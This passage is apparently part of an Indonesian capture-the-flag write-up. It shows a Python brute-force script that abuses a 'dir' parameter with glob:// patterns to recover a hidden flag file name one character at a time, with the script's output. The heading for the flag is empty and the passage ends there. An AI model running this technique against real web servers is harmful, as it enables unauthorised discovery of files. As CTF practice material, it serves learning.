 <a id="codespr1344"></a>

## Final Brute Force

Kita lakukan beberapa perubahan kode untuk bisa mendapatkan nama file tersebut

```python
import requests

karakter = "abcdefABCDEF0123456789"

clue = list("flag")

url = "http://ctf.iluv.my.id:9999/"

while len(clue) != 19:
    for brute in karakter:
        kirim = str("glob:///tmp/chall/" + "".join(clue) + brute + "*")
        noob = requests.get(
            url, 
            params={
            "dir": kirim
            },
        )
        if noob.text == "":
            continue
        else:
            clue.append(brute)
            print("Sukses : " + "".join(clue) + ".txt")
            break
```
```sh
noob@codes:~$ python final-brute.py
Sukses : flag1.txt
Sukses : flag16.txt
Sukses : flag164.txt
Sukses : flag1647.txt
Sukses : flag16474.txt
Sukses : flag164745.txt
Sukses : flag164745e.txt
Sukses : flag164745e7.txt
Sukses : flag164745e79.txt
Sukses : flag164745e796.txt
Sukses : flag164745e7966.txt
Sukses : flag164745e7966f.txt
Sukses : flag164745e7966f6.txt
Sukses : flag164745e7966f6e.txt
Sukses : flag164745e7966f6e4.txt
```

<a id="codespr1345"></a>

## FLAG 
